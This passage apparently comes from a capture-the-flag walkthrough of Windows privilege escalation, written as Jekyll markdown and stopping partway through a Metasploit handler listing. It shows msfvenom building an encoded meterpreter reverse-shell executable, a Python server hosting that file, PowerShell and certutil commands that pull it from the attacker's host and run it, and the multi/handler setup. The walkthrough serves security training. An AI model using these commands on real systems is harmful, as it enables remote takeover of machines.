 
## Task 4 - Windows Privilege Escalation

### References
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester){:target="_blank"}
- [Splinterware System Scheduler PrivEsc](https://www.exploit-db.com/exploits/45072){:target="_blank"}
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe){:target="_blank"}


Download the `winPEAS` executable using `wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe`.

Use `msfvenom` to create a `reverse shell` payload.
{% capture code %}{% raw %}msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<ip> LPORT=4443 -f exe -o revshell.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: revshell.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `python web server` to download the `reverse shell` payload.
{% capture code %}{% raw %}python -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...{% endraw %}{% endcapture %} {% include code.html code=code %}

From the `netcat` listener, download the payload
{% capture code %}{% raw %}c:\windows\system32\inetsrv> powershell -c "Invoke-WebRequest -Uri 'http://<source-ip>:8080/revshell.exe' -OutFile 'c:\windows\temp\revshell.exe'"
c:\windows\system32\inetsrv> c:\windows\temp\revshell.exe

c:\windows\system32\inetsrv> cd c:\windows\temp
c:\windows\system32\inetsrv> certutil -urlcache -split -f "http://<source-ip>:8080/revshell.exe" revshell.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `msfconsole -q` to set `exploit/multi/handler` and its variables.
{% capture code %}{% raw %}msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

Name  Current Setting  Required  Description
----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port
